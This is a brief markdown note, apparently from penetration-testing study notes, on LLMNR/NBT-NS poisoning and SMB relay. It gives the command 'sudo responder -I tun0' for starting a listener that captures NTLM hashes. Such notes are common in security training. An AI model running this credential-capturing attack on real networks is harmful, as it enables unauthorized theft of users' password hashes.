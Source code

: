 # LLMNR/NBT-NS Poisoning and SMB Relay 

## Capturing NTLM hashes with responder
- `sudo responder -I tun0`: Start a listener using default settings on interface tun0 (typically used when on VPN)
